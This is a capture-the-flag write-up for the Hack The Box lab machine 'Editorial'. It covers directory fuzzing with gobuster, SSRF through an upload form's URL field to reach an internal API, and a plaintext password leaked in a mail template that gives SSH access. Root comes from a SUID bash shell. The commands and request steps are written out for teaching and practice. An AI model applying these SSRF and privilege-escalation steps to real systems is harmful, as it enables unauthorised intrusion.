 # User flag

To begin, we ran an **nmap** scan on the target machine's IP to identify the open ports.

![Nmap](Images/Nmap.png)

We observed that port 80 was open, so we checked the website.  

As usual, we performed directory fuzzing and found a potential attack vector in the **upload** directory.
```bash
gobuster dir -u http://editorial.htb  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 200
```
![upload](Images/upload.png)

After trying to upload various types of files with malicious payloads without success, I noticed the input field next to it, which allows us to insert a URL. The first thing that came to mind was to attempt an **SSRF** (Server-Side Request Forgery) by searching for common configuration files.

When that didn’t work, I decided to try fuzzing for open ports. I captured the request using **Burpsuite**, created a file with all the ports, and used **ffuf** to check if any accessible ports could be found.If we send the request referencing one of these open ports and capture the response with **Burpsuite**, we see that we are provided with a specific endpoint.
```bash
ffuf -u http://editorial.htb/upload-cover -X POST -request request.txr -w ports.txt -fs 61
```
![ffuf](Images/ffuf.png)

If we send the request referencing one of these open ports and capture the response with **Burpsuite**, we see that we are provided with a specific endpoint.

![response ssrf](Images/response%20ssrf.png)

Visiting that endpoint in the browser, a file is downloaded with the following content:
```bash
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```
After visiting several endpoints and performing the SSRF (Server-Side Request Forgery) in the same manner, we observed that when making a request to the endpoint `http://localhost:5000/api/latest/metadata/messages/authors`, we found the following message:
```bash
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```
If we try to access via SSH using the credentials from the message, we succeed.

![reverseshell](Images/reverseshell.png)

With this, we can obtain the user flag.

![userflag](Images/userflag.png)


# Root flag
To start the privilege escalation, I tried running `sudo -l`, but our user is not in the `sudoers` group. Then, I listed the `/home` directory and found the user `prod`.

To facilitate the privilege escalation process, we used `linpeas`. When executing it, we found the following:

![linpeas](Images/linpeas.png)

The file `/usr/bin/bash` has the SUID bit set, which means that any user executing the file will do so with the permissions of the file owner, in this case `root`.

Therefore, if we run the command `/usr/bin/bash -p` we can spawn a new root shell.

![rootflag](Images/rootflag.png)

